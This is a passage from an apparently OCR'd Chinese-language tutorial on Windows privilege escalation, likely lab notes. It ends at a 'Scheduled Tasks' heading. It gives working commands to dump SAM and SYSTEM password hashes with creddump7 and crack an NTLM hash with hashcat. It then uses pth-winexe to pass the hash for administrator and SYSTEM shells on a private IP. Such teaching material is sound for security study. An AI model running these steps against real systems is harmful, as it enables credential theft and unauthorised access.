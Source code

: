 #### 3. 下载信用套件：

```php
git clone https://github.com/Neohapsis/creddump7.git
```

#### 4. 运行对SAM和系统文件的工具来提取哈希：

```php
python2 creddump7/pwdump.py SYSTEM SAM
```

#### 5.使用hashcat破解管理员用户哈希：

```php
hashcat -m 1000 --force  a9fdfa038c4b75ebc76dc855dd74f0da  /usr/share/wordlists/rockyou.txt
```

Hash
----

### 前言

Windows 接受哈希斯而不是密码来验证许多服务。

我们可以使用经过修改的winexe，即pth-winexe，使用管理员用户的哈希生成命令提示

### 实操

#### 1. 从上一步中的SAM中提取管理员哈希。

#### 2. 使用带pth-winexe 的哈希来生成命令提示：

```php
pth-winexe -U  'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c 4b75ebc76dc855dd74f0da' //192.168.175.228 cmd.exe
```

#### 3. 使用带pth-winexe的哈希产生SYSTEM

```php
pth-winexe --system -U  'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c 4b75ebc76dc855dd74f0da' //192.168.175.228 cmd.exe
```

Scheduled Tasks
===============

预定任务
----

### 前言

Windows 可以配置为在特定时间（例如 每 5 分钟）或由某个事件触发（例如用户登录）运行任务。

任务通常使用创建它们的用户的权限运行，但管理员可以配置以其他用户（包括系统）身份运行

### 基本命令
